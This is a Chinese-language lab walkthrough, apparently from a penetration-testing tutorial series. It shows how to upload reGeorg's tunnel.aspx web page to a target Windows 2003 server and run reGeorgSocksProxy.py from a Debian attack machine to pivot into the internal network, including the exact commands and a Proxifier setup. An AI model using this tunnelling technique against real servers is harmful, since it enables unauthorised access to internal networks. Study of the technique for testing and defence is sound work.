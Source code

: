 

### reGeorg简介：

reGeorg 的前身是2008年 SensePost 在 BlackHat USA 2008 的 reDuh 延伸与扩展。也是目前安全从业人员使用最多，范围最广，支持多丰富的一款 http 隧道。从本质上讲，可以将 JSP/PHP/ASP/ASPX 等页面上传到目标服务器，便可以访问该服务器后面的主机。

2014年blackhat介绍  
https://www.blackhat.com/eu-14/arsenal.html#regeorg

Github：  
https://github.com/sensepost/reGeorg

**攻击机：**  
192.168.1.5 Debian  
192.168.1.4 Windows 7

**靶机：**   
192.168.1.119 Windows 2003

安装：
```bash
root@John:~# git clone https://github.com/sensepost/reGeorg.git
Cloning into 'reGeorg'...
remote: Enumerating objects: 85, done.
remote: Total 85 (delta 0), reused 0 (delta 0), pack‐reused 85
Unpacking objects: 100% (85/85), done.
root@John:~# cd reGeorg/
root@John:~reGeorg# ls
LICENSE.html LICENSE.txt README.md reGeorgSocksProxy.py tunnel.ashx tu
nnel.aspx tunnel.js tunnel.jsp tunnel.nosocket.php tunnel.php tunnel.tomcat.5.jsp
root@John:~/reGeorg# python reGeorgSocksProxy.py ‐h


_____
_____ ______ __|___ |__ ______ _____ _____ ______
| | | ___|| ___| || ___|/ \| | | ___|
| \ | ___|| | | || ___|| || \ | | |
|__|\__\|______||______| __||______|\_____/|__|\__\|______|
|_____|
... every office needs a tool like Georg 

willem@sensepost.com / @_w_m__
sam@sensepost.com / @trowalts
etienne@sensepost.com / @kamp_staaldraad 

usage: reGeorgSocksProxy.py [‐h] [‐l] [‐p] [‐r] ‐u [‐v] 

Socks server for reGeorg HTTP(s) tunneller 

optional arguments:
‐h, ‐‐help show this help message and exit
‐l , ‐‐listen‐on The default listening address
‐p , ‐‐listen‐port The default listening port
‐r , ‐‐read‐buff Local read buffer, max data to be sent per POST
‐u , ‐‐url The url containing the tunnel script
‐v , ‐‐verbose Verbose output[INFO\|DEBUG]
```

```bash
root@John:~/reGeorg# pip install urllib3
Requirement already satisfied: urllib3 in /usr/lib/python2.7/dist‐packages (1.24)
```
![](/img/c0a4051103d17e54b53982c1b6e8b631.jpg)



**靶机执行：**

以aspx为demo。  

![](/img/6f441fb77ba89a092b149fc8b4bc7eb9.jpg)

**攻击机执行：**
```python
python reGeorgSocksProxy.py ‐p 8080 ‐l 192.168.1.5 ‐u http://192.168.1.119/tunnel.aspx
```
![](/img/ecf64d63d586febad9c38bfa700ecd46.jpg)


Windows下配合Proxifier：  

![](/img/e0ed655e244f7a76f703bfa13ec6bb4d.jpg)

![](/img/48feea22eae0e72d9585eef488eb07f8.jpg)

非常遗憾的是，目前大部分waf都会针对默认原装版本的reGeorg。

>   Micropoor
